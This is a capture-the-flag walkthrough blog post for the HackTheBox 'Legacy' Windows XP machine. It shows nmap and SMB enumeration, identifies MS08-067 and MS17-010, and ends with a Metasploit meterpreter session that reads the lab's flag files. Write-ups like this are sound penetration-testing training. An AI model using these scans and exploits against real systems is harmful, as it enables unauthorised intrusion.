 ```yaml
---
layout: post
title: HackTheBox - Legacy
date: 2021-01-05 17:58:12 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [htb-windows-easy, samba, MS08-067, CVE-2008-4250, metasploit, meterpreter, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/legacy/Legacy.png
---
```


## Enumeration

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Legacy-full-port-scan.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h56m10s, deviation: 1h24m51s, median: -4h56m10s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:67:71 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-05T13:28:59+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}

The target is a **Windows XP** server running **Samba**.

### smb (ports 139 & 445)

{% highlight bash %}
$ smbclient -L //10.10.10.4/ -U '%' | tee services/139-smbclient.txt
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
$ smbmap -H $TARGET -R
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
$
{% endhighlight %}

### `nmap` scan vuln

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.4
{% endhighlight %}

![nmap vuln scan](/assets/img/htb/machines/windows/easy/legacy/nmap-vuln-scan.png)

Two critical vulnerabilities allowing remote code execution affect our target machine:

- **MS08-067** (`CVE-2008-4250`) 
- **MS17-010** (`CVE-2017-0143`) 

## Exploitation

Both of these vulns can be exploited through Metasploit modules.

### Metasploit (exploiting MS08-067)

![msf](/assets/img/htb/machines/windows/easy/legacy/msf.png)

## SYSTEM user

{% highlight bash %}
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
{% endhighlight %}
___

## Useful links

- [CVE-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [Microsoft Security Bulletin MS08-067 - Critical](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN)